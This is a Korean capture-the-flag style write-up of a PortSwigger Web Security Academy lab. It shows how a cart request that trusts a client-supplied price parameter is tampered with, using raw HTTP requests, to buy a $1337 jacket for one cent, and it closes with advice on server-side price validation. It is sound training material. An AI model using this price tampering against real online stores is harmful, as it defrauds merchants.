



+++
date = '2026-08-08T14:10:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Excessive trust in client-side controls'
summary = "장바구니 요청의 price 파라미터를 1로 바꿔 재킷을 $0.01에 구매하는 Business Logic 풀이"
toc = true
tags = ["Business Logic", "Price Tampering", "PortSwigger", "Apprentice"]
+++

---

## 문제 분석

> **난이도**: `APPRENTICE`  
> **Lab**: [Excessive trust in client-side controls](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls)

> 

이 랩은 구매 과정에서 사용자 입력을 적절히 검증하지 않는다. 로직 결함을 이용해 `Lightweight l33t leather jacket`을 구매하면 문제가 해결된다. 실습 계정은 `wiener:peter`다.

### Business Logic 진단

주어진 계정으로 로그인하면 잔액은 `$100`이고, 구매해야 할 재킷은 `$1337`이다. 먼저 저렴한 상품으로 구매 흐름을 확인한다.

Add to cart를 누르면 다음 요청이 발생한다.

```http
POST /cart HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
Content-Type: application/x-www-form-urlencoded

productId=6&redir=PRODUCT&quantity=1&price=54
```

장바구니에서 Place order를 누르면 CSRF 토큰을 포함한 `POST /cart/checkout` 요청이 발생한다. 결제가 처리된 뒤 `GET /cart/order-confirmation?order-confirmed=true`로 리다이렉트된다.

장바구니 요청에는 상품과 수량뿐 아니라 **`price`도 전달된다**. 서버가 상품 가격을 직접 조회하지 않고 이 값을 사용한다면, 가격만 바꿔 같은 상품을 더 낮은 금액으로 담을 수 있다.

---

## 익스플로잇

재킷의 Add to cart 요청을 가로채 `price`를 `1`로 바꿔 전송한다.

```http
POST /cart HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: session=<session>
Content-Type: application/x-www-form-urlencoded

productId=1&redir=PRODUCT&quantity=1&price=1
```

장바구니를 확인하면 재킷 한 개가 `$0.01`로 등록되어 있다. 이 요청의 `price`는 센트 단위이며, 서버가 변경한 값을 가격에 반영한 것이다.



이 상태에서 Place order를 누르면 구매가 완료되고 문제가 해결된다.



---

## 정리

상품을 식별하는 `productId`가 있어도 서버는 클라이언트가 보낸 `price`를 구매 가격으로 받아들였다. 화면에 표시된 가격을 사용자가 직접 편집할 수 없더라도, 요청에 실린 값은 바꿀 수 있다.

가격은 서버가 상품 정보에서 결정하고 결제 시점에도 다시 계산해야 한다. 클라이언트 입력을 신뢰하는 다른 형태는 [Business Logic Note](/note/portswigger-business-logic/)에서 함께 정리한다.
